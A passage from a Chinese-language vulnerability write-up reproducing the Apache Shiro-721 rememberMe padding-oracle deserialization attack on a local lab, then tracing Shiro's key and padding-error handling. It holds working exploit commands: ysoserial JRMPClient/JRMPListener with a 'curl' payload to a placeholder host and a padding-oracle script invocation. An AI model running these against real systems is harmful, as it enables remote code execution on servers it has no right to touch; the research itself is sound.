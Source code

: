EXP用[3ndz/Shiro-721](https://github.com/3ndz/Shiro-721)，shiro的版本1.4.1配置过程参考上文。

yso生成个jrmpclient：

```
java -jar ysoserial.jar JRMPClient 'x.x.x.x:12345' &gt; JRMPClient
```

服务端起一个jrmplistener

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections2 'curl http://x.x.x.x:8989'
```

```
python2 shiro_padding_oracle.py http://127.0.0.1:8088/samples_web_war_exploded/index.jsp [rememberMe的cookie] JRMPClien
```

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_368_/t0147845acd97e2cb72.jpg)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

先来看看这个版本对秘钥的处理：org/apache/shiro/mgt/AbstractRememberMeManager.java

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_141_/t018c0d1b693daf6135.jpg)

一直跟进，可以看到将之前的硬编码秘钥换成了动态生成：

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_655_/t0104f400d3bfafa608.jpg)

#### <a class="reference-link" name="padding%E9%94%99%E8%AF%AF"></a>padding错误

在我们给rememberMe输入错误的padding后，经过上文提到的解密过程后，会抛出异常:/org/apache/shiro/crypto/JcaCipherService.class

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_637_/t0110860760d3dac361.jpg)

然后在org/apache/shiro/mgt/AbstractRememberMeManager.java#getRememberedPrincipals捕获

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_466_/t013bdf6334703a47e7.jpg)

最后在org/apache/shiro/web/servlet/SimpleCookie.java中给返回包设置一个rememberMe的cookie，覆盖掉之前的值：

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_452_/t0152e1bd8144fc1646.jpg)

调用栈：

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_462_/t01412e258d631de31c.jpg)

#### <a class="reference-link" name="padding%E6%AD%A3%E7%A1%AE%EF%BC%8C%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%94%99%E8%AF%AF"></a>padding正确，反序列化错误


[1]: [https://www.freebuf.com/articles/web/15504.html](https://www.freebuf.com/articles/web/15504.html)<br>
[2]: [https://ctf-wiki.github.io/ctf-wiki/crypto/blockcipher/mode/cbc-zh/](https://ctf-wiki.github.io/ctf-wiki/crypto/blockcipher/mode/cbc-zh/)<br>
[3]: [https://saucer-man.com/information_security/396.html](https://saucer-man.com/information_security/396.html)<br>
[4]: [https://github.com/apache/shiro/archive/shiro-root-1.2.4.zip](https://github.com/apache/shiro/archive/shiro-root-1.2.4.zip)<br>
[5]: [http://drops.xmd5.com/static/drops/tips-7828.html](http://drops.xmd5.com/static/drops/tips-7828.html)<br>
[6]: [https://support.apple.com/kb/DL1572?locale=zh_CN](https://support.apple.com/kb/DL1572?locale=zh_CN)<br>
[7]: [https://paper.seebug.org/shiro-rememberme-1-2-4/](https://paper.seebug.org/shiro-rememberme-1-2-4/)<br>
[8]: [http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html](http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)<br>
[9]: [https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html](https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html)<br>
[10]: [https://github.com/threedr3am/marshalsec](https://github.com/threedr3am/marshalsec)<br>
[11]: [https://www.anquanke.com/post/id/193165](https://www.anquanke.com/post/id/193165)<br>
[12]: [https://github.com/3ndz/Shiro-721](https://github.com/3ndz/Shiro-721)<br>
[13]: [https://p0sec.net/index.php/archives/126/](https://p0sec.net/index.php/archives/126/)<br>
[14]: [https://xz.aliyun.com/t/3847](https://xz.aliyun.com/t/3847)